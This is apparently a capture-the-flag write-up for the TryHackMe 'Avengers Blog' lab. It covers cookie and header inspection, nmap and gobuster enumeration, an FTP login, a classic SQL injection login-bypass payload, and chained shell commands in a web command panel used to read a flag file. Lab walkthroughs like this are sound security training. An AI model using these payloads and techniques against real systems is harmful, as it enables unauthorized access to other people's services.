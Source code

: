 # Avengers Blog Write Up
https://tryhackme.com/room/avengers


### Task 1 Deploy

Deploy the vm and connect with openvpn.

### Task 2 Cookies

Navigate to the web server running on the machine in your browser and right-click and choose 'Inspect Element' if using Firefox. Click the storage tab to look at cookies in your browser. View the value of the flag1 cookie.

### Task 3 HTTP Headers

Staying in developer tools, go to the network tab and click on the first request made "/". In Firefox you can view the header information on the right side of the developer tools. View the section under "Response Headers" and flag2 will be one of the response headers.

### Task 4 Enumeration and FTP

```
nmap -sC -sV -v -A 10.10.31.84
```
We start by running a port scan on the target. I like to use -sV as it probes for versions and -A as it gives us more information about the OS, versions, runs scripts, and traceroute.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a7:1c:5c:b9:a3:17:38:eb:2b:3b:d8:a4:22:bc:01:b8 (RSA)
|   256 3b:c4:2a:b4:8e:2a:58:70:5b:6f:30:7e:0a:b4:c6:44 (ECDSA)
|_  256 0e:fc:ac:89:85:3f:6f:44:ef:bc:40:d7:cf:c0:ba:f2 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-favicon: Unknown favicon MD5: E084507EB6547A72F9CEC12E0A9B7A36
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Avengers! Assemble!
```
From our scan we see that ftp is running on the victim, so lets check that out.

```
# ftp 10.10.31.84
Connected to 10.10.31.84.
220 (vsFTPd 3.0.3)
Name (10.10.31.84:cornbread): groot
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
Using the ftp command and supplying a username and password we gathered from our reconnaissance of the website we authenticate into the ftp server. It looks like there is a directory 'files' and inside we find flag3.txt which we can grab.
```
ftp> get flag3.txt
```

### Task 5 GoBuster

```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.31.84/
```
After running gobuster for about 1 minute we find a bunch of directories but the one we are looking for is the login page '/portal'.

```
===============================================================
/img                  (Status: 301) [Size: 173] [--> /img/]
/home                 (Status: 302) [Size: 23] [--> /]     
/Home                 (Status: 302) [Size: 23] [--> /]     
/assets               (Status: 301) [Size: 179] [--> /assets/]
/portal               (Status: 200) [Size: 1409]              
/css                  (Status: 301) [Size: 173] [--> /css/]   
/js                   (Status: 301) [Size: 171] [--> /js/]    
/logout               (Status: 302) [Size: 29] [--> /portal]  
/Portal               (Status: 200) [Size: 1409]
```

### Task 6 SQL Injection

Go to the portal page and we are presented with a simple login page. In this case we know its vulnerable to SQLi and there are a variety of different payloads you can try but we'll just go with a simple:
```
' or 1=1-- '
```
Boom! Putting this in the username and password field seems to work as we are authenticated and redirected to Jarvis Control Panel at '/home'. In Firefox we can right click and 'View Page Source' then look on the left hand side to read the lines of code for the answer.

### Task 7 Remote Code Execution and Linux

We have a command line where we can seemingly run certain commands. So lets try ls.
This gives us the current directory so we can try to navigate the file system for the flag. Going back one directory we see flag5.txt.
```
cd ../; ls; cat flag5.txt
```
After trying this we are not allowed to use cat and are told to use a different method of displaying the file. TryHackMe wants you to use tac but I used less. Both will return the same output in this situation.

```
cd ../; ls; less flag5.txt
```


